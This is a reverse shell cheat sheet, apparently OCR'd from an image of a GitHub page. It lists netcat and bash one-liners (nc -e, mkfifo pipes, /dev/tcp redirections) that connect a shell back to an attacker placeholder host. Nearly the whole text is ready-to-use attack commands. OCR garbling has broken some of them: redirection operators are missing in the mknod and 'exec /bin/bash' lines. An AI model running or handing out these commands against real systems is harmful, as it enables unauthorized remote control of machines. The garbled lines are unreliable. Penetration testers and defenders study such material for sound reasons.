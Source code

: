 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> nc -e /bin/sh 10.0.0.1 1234

> /bin/sh | nc ATTACKING-IP 80

> rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Bash Reverse Shells

> exec /bin/bash 0&0 2>&0

> 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

> exec 5<>/dev/tcp/ATTACKING-IP/80
>
> cat <&5 | while read line; do $line 2>&5 >&5; done
>
** or **
>
> while read line 0<&5; do $line 2>&5 >&5; done

> bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
